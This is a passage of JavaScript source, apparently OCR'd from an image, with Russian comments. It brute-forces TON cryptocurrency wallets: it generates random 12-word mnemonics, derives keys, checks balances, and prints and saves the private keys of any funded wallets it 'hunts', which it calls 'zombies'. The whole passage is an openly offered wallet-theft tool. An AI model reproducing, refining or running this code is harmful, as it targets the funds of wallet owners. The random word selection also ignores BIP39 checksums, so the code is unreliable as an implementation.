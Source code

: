 ```js
    return null;
}

// Генерация мнемоники
function generateMnemonic() {
    let words = [];
    for (let i = 0; i < 12; i++) {
        words.push(WORDLIST[Math.floor(Math.random() * WORDLIST.length)]);
    }
    return words.join(" ");
}

// Охота на кошелёк
async function huntWithMnemonic() {
    const mnemonic = generateMnemonic();
    const seed = bip39.mnemonicToSeedSync(mnemonic);

    const wallet = new Bip32Utils();
    const masterKey = wallet.generateMasterKeyFromSeed(seed);
    const keyPair = wallet.deriveKey(masterKey, [44 + 0x80000000, 607 + 0x80000000, 0 + 0x80000000, 0, 0]);

    const tonWallet = WalletContractV4.create({
        publicKey: Buffer.from(keyPair.publicKey),
        workchain: 0
    });

    const data = await checkBalance(tonWallet.address);

    if (data) {
        foundCount++;
        console.log(`🧟‍♂️ МНЕМОНИЧЕСКИЙ ЗОМБАК НАЙДЕН! #${foundCount}`);
        console.log(`🧠 Мнёмоника: ${mnemonic}`);
        console.log(`🔓 Публичный ключ: ${keyPair.publicKey.toString('hex')}`);
        console.log(`🔑 Приватный ключ: ${keyPair.privateKey.toString('hex')}`);
        console.log(`👛 Адрес: ${data.address}`);
        console.log(`💰 Баланс: ${data.balance / 1e9} TON`);
        console.log("-".repeat(50));

        const fs = require("fs");
        const logEntry = JSON.stringify({
            timestamp: new Date().toISOString(),
            mnemonic,
            privateKey: keyPair.privateKey.toString("hex"),
            publicKey: keyPair.publicKey.toString("hex"),
            address: data.address,
            balance: data.balance,
        }) + "\n";

        fs.appendFileSync("zombies_with_mnemonic.json", logEntry);
    }

    return data;
}

// Параллельный запуск
async function runBatch() {
    const promises = [];
    for (let i = 0; i < BATCH_SIZE; i++) {
        promises.push(huntWithMnemonic());
    }

    await Promise.all(promises);
```